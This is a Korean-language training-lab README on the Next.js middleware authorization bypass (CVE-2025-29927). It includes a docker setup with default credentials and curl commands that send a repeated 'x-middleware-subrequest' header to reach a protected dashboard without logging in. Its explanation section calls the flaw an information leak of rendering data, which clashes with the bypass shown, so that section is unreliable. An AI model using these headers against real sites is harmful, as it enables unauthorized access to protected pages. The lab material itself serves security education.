 # Next.js 미들웨어 인가 우회 (CVE-2025-29927)

> 화이트햇 스쿨 3기 - [류송)](https://github.com/KUStiger/whs3-nextjs/tree/main/Next.js/CVE-2025-29927)


## Next.js란?

Next.js는 React를 기반으로 한 웹 애플리케이션 프레임워크입니다.  
기본적인 React 기능에 더해 서버사이드 렌더링(SSR), 정적 사이트 생성(SSG), 파일 기반 라우팅, API 라우트 등을 지원하여, 프론트엔드와 백엔드 기능을 함께 개발할 수 있도록 도와줍니다.
Next.js를 사용하면 SEO 최적화가 쉽고, 성능 좋은 웹사이트를 빠르게 구축할 수 있습니다.


## CVE-2025-29927 취약점 설명

CVE-2025-29927은 Next.js의 middleware 처리 과정의 취약점을 악용하여, 서버 내부 렌더링 데이터를 노출시킬 수 있는 정보 유출(Information Disclosure) 취약점입니다.

Next.js는 클라이언트 요청을 처리할 때 middleware를 거칩니다.  
이때, 특별히 조작된 헤더(`x-middleware-subrequest`)를 다섯 번 이상 중첩하여 보내면, 서버가 이를 제대로 방어하지 못하고 서버 내부 렌더링 데이터(`__next_f`)를 외부 클라이언트에게 노출시키는 문제가 발생합니다.

### 요약

- 취약 원인: 중첩된 미들웨어 요청 처리 미흡
- 공격 방법: `x-middleware-subrequest` 헤더를 중첩하여 요청
- 공격 결과: 서버 내부 렌더링 상태(`__next_f`) 및 민감한 페이지 구조 정보 노출
- 위험성: 공격자가 서버 렌더링 내부 데이터를 수집하여 추가적인 공격(디렉토리 구조 파악, 내부 경로 분석 등)에 활용 가능

<br/>

**참고 자료 (References):**

- <https://github.com/advisories/GHSA-f82v-jwr5-mffw>
- <https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware>
- <https://nvd.nist.gov/vuln/detail/CVE-2025-29927>

<br/>

### 환경 설정 (Environment Setup)

다음 명령어를 실행하여 Next.js 15.2.2 기반의 취약한 애플리케이션을 시작합니다:

```
docker compose up -d
```

애플리케이션이 시작되면, `http://your-ip:3000` 주소를 방문할 때 로그인 페이지로 리디렉션됩니다. 기본 자격 증명인 `admin:password`를 입력하여 로그인하고 대시보드에 접근할 수 있습니다.

<br/>

### 취약점 재현 (Vulnerability Reproduction)

유효한 자격 증명 없이 대시보드에 직접 접근하려고 하면, 로그인 페이지로 리디렉션됩니다:

```bash
curl -i http://your-ip:3000
```

![](1.png)
취약점을 악용하려면, 요청에 `x-middleware-subrequest` 헤더를 추가하고 값으로 `middleware:middleware:middleware:middleware:middleware`를 설정합니다. 이로 인해 Next.js 미들웨어가 해당 헤더를 잘못 처리하여 인증 검사를 우회하게 됩니다:

```
curl -i -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" http://your-ip:3000
```

![](2.png)

보시다시피, 대시보드에 인증 없이 접근이 가능합니다.

> 만약 이전 페이로드가 작동하지 않을 경우, `x-middleware-subrequest: src/middleware:src/middleware:src/middleware:src/middleware:src/middleware` 헤더를 시도할 수도 있습니다.
